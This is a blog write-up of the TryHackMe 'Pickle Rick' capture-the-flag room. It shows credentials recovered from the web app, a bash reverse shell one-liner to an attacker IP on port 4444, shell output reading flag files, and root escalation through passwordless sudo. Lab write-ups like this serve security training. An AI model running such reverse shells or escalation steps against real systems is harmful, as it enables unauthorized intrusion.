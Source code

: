```yaml
---
title: "Pickle Rick CTF - TryHackMe"
author: Ludovic COULON
date: 2020-05-19
hero: ./images/hero.jpeg
excerpt: "Writeup for the Pickle Rick CTF on TryHackMe"
---
```


[TryHackMe | Pickle Rick CTF](https://tryhackme.com/room/picklerick)

This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

### Setup

<div className="Image__Medium">
  <img src="https://imgur.com/rM9j9mn.png" alt="blog_image" />
</div>

```bash
Note to self, remember username!

Username: R1ckRul3s
```

<div className="Image__Medium">
  <img src="https://imgur.com/lUU7tXN.png" alt="blog_image" />
</div>

```bash
Maybe a password ?
Wubbalubbadubdub
```

<div className="Image__Medium">
  <img src="https://imgur.com/xtHHGaE.png" alt="blog_image" />
</div>

```bash
Account:
R1ckRul3s:Wubbalubbadubdub
```

### #1 Deploy the virtual machine on this task and explore the web application. What is the first ingredient Rick needs?

<div className="Image__Medium">
  <img src="https://imgur.com/1vWZUA9.png" alt="blog_image" />
</div>

```bash
cat Sup3rS3cretPickl3Ingred.txt
```

<div className="Image__Medium">
  <img src="https://imgur.com/J5cZERN.png" alt="blog_image" />
</div>

Let's try something else then ...

[bash | GTFOBins](https://gtfobins.github.io/gtfobins/bash/)

```bash
bash -c 'exec bash -i &>/dev/tcp/10.9.2.228/4444 <&1'
```

```bash
www-data@ip-10-10-91-207:/var/www/html$ ls
ls
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
www-data@ip-10-10-91-207:/var/www/html$ cat Sup3rS3cretPickl3Ingred.txt
cat Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```

### #2 Whats the second ingredient Rick needs?

When you are in root you can't cd in the directory so I used the less command like so.

```bash
less /home/rick/"second ingredients"
1 jerry tear
```

### #3 Whats the final ingredient Rick needs?

```bash
www-data@ip-10-10-91-207:/var/www/html$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-91-207.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-91-207.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
www-data@ip-10-10-91-207:/var/www/html$ sudo su
cd /root/
ls
3rd.txt
snap
cat 3rd.txt
3rd ingredients: fleeb juice
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/kUD3W5P.png" alt="TryhackMeProfile" />
  </a>
</center>
